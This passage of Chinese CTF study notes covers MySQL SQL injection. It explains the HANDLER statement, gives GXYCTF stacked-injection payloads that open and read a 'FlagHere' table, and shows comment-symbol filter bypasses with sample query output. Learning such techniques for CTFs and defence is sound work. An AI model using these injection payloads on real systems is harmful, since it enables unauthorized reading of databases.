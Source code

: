 ```mysql
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

<a href="https://dev.mysql.com/doc/refman/8.0/en/handler.html" target="_blank">官方文档</a>

GXYCTF payload:

```sql
1'; handler `FlagHere` open as `a`; handler `a` read next;#
1
```

```sql
1';HANDLER FlagHere OPEN; HANDLER FlagHere READ FIRST; HANDLER FlagHere CLOSE;#
```





# 注释符号绕过

常用的注释符有

```
-- 注释内容
# 注释内容
/*注释内容*/
;
```

实例

```sql
mysql> select * from users -- where id = 1;
    -> ;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
|  2 | user2    | pass1    |
1234567
mysql> select * from users # where id = 2;
    -> ;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
|  2 | user2    | pass1    |
1234567
mysql> select * from users where id = 3 /*+1*/
    -> ;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  3 | test3    | pass1    |
+----+----------+----------+
1 row in set (0.00 sec)
12345678
```